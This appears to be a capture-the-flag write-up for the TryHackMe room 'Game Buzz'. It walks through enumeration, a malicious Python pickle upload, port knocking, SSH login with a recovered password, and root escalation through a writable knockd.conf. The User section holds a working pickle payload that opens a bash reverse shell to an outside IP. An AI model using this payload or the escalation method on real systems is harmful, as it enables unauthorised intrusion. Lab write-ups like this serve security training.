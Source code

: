 # Game Buzz

![image](https://user-images.githubusercontent.com/5285547/128932672-b10c018a-8d55-4bfd-8edb-1d4100c0a480.png)

Romm link: https://tryhackme.com/room/gamebuzz

## Enum

Nmap

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Incognito
```

---
## Port 80 

Checking the main website didn't show much, apart from a button that loads a file with a .pkl extension. 

![image](https://user-images.githubusercontent.com/5285547/128937818-90d5dd7c-561d-4463-8a1c-a79311deb7b5.png)

Also we find a domain name. 

```
sudo nano /etc/hosts  
ip incognito.com
```

## dev.incognito.com

```
sudo nano etc/hosts
IP dev.incognito.com
```

http://dev.incognito.com/secret/upload/

Finding the endpoint we can try to upload a file of our own. Based on the .pkl file extension this hints at python pickle deserilization. 

## User

If we can get our file to be read from the main website we can get RCE. 

test.pkl (rev shell)

```
#!/usr/bin/env python3
import pickle, os
class pickleSerilization(object):
    def __reduce__(self):
        return (os.system,("bash -c 'bash -i >& /dev/tcp/10.8.153.120/9999 0>&1'",))
pickle.dump(pickleSerilization(), open("rev_shell", "wb"))
```
Running the code gives us the rev_shell file. Upload this at "http://dev.incognito.com/secret/upload/" then call it with the main website.

![image](https://user-images.githubusercontent.com/5285547/128940779-a030648b-e70f-49e1-b35f-53d343d13e96.png)

```
su dev2
#no password
```

Now we can access the /home/dev2/ folder to find the user flag. 

---
## User 2

We find a file called "/etc/knockd.conf" that looks intresting. I see some ports we need to knock to open SSH

```
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCE$
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJE$
        tcpflags    = syn


5020,6120,7340
```

Doing some more enumeration showed some mails for dev1 in /var/mail, with a message to let ourselfs in! 

![image](https://user-images.githubusercontent.com/5285547/129106087-17c54550-1086-4344-9ff7-01f9253d7e90.png)

Using knock I opend the SSH port then used the password to login as dev1. 

```
knock  10.10.28.93 5020 6120 7340

ssh dev1@incognito.com
dc647eb65e6711e155375218212b3964
```

![image](https://user-images.githubusercontent.com/5285547/128942276-39b99b82-3826-4ec6-a5a8-341f920dda9b.png)

---
## Root

Enumerating the system again we can see the same file popping up in linpeas with acl permissions set. 

![image](https://user-images.githubusercontent.com/5285547/128942448-bd64f8da-f086-4d76-9c72-6e728f375d2e.png)

Knowing this lets edit the file to test some command execution (as root). 

```
nano /etc/knockd.conf
```

![image](https://user-images.githubusercontent.com/5285547/129106344-16e7d82d-d738-412d-bc2d-473f2991022d.png)

After editing the file I restarted the knockd service and tried again to knock the ports. 

```
sudo /etc/init.d/knockd restart 

knock  10.10.203.141 5020 6120 7340
ls /tmp
```

![image](https://user-images.githubusercontent.com/5285547/129106804-de631ac7-c5af-498a-9bd5-9ec7395b4eb2.png)

Then call the file with the now suid bit set for root.

![image](https://user-images.githubusercontent.com/5285547/129106866-21667040-40c7-4da3-8856-911d185dd7f1.png)





